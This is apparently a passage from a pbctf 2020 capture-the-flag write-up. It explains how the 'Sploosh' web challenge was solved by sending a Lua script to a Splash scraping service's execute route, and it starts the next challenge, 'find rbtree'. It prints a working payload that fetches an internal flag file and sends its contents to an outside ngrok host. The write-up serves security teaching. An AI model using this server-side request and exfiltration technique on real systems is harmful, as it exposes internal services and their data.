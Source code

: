 ```php
  fail();
}
?>
```

Well this is interesting!  Although it didn't end up panning out solution-wise, you can pollute parameters for /render.json.  I spend an awfully large amount of time trying to use the js_source parameter (which executes arbitrary JS in the context of the scraped page) to make a network request.  

### what can scrapinghub/splash do?  

There doesn't seem to be anything useful for flag gathering in sploosh, so lets take a look at the scraping API it calls!  `/render.json` has a number of parameters we can set if we wish (show html, show png, execute arbitrary js in the context of the page) but the issue is we only ever see the geometry of the page.  My first thought was that you could use JS to change the geometry of the page and then essentially binary search your way through the flag.  That didn't work out because you can't (easily) make external http requests or change the geometry size.  

What else can Splash do?  Well it can render it as html, png, jpeg, etc.  It also has an execute route which uh executes a Lua script to handle more obscure scraping use cases.  The script is passed in through a GET query parameter which means that we can make this request from Sploosh!  Executing code from this context can obviously make network requests (because it has to for scraping) so very likely this will get us the flag.  

A few minutes later we have a payload and just need to url encode it and pass it to Sploosh.  Probably could've made it return the flag in geometry but I already had ngrok running for my js_source try so that happened first lol.   
```lua
http://splash:8050/execute?lua_source=function main(splash)
    treat = require("treat")
    i, j = treat.as_string(splash:http_get("http://172.16.0.14/flag.php").body)
    local dest = "http://801a64a6dc80.ngrok.io/" .. i
    splash:http_get(dest)
    return 'hello'
end
```

flag: pbctf{1_h0p3_y0u_us3d_lua_f0r_th1s}

# find rbtree

```text
Find rbtree among hundreds of people

nc find-rbtree.chal.perfect.blue 1

Update: The challenge.py was updated at 01:00 UTC, 6th Dec. Please redownload if you have downloaded prior to that.

By: sampriti & rbtree
```

[find_rbtree.py](/ctf/pbctf-2020/find_rbtree.py)
